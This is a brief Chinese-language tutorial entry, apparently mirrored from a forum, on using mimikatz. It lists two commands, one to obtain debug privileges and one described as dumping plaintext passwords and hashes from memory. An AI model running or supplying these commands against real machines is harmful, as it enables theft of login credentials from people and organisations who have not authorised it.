

# 4.1.1 mimikatz

> 原文：[https://www.zhihuifly.com/t/topic/3416](https://www.zhihuifly.com/t/topic/3416)

### 4.1.1 mimikatz

用法:

```
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 
```

